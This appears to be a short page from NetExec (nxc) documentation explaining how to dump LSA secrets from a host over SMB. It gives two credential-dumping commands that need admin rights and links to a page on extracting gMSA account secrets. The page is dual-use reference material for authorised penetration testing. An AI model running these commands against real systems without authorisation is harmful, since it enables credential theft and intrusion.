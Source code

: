 # Dump LSA

### Dump LSA secrets using methods from secretsdump.py

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```bash
nxc smb $TARGET/24 -u $USER -p $PASSWORD --lsa
```

If this command fail you can also try the old method (similar to secretdump)

```bash
nxc smb $TARGET/24 -u $USER -p $PASSWORD --lsa secdump
```

If you found an account starting with _SC\_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7} you can get the account behind:

{% content-ref url="../../ldap-protocol/extract-gmsa-secrets.md" %}
[extract-gmsa-secrets.md](../../ldap-protocol/extract-gmsa-secrets.md)
{% endcontent-ref %}
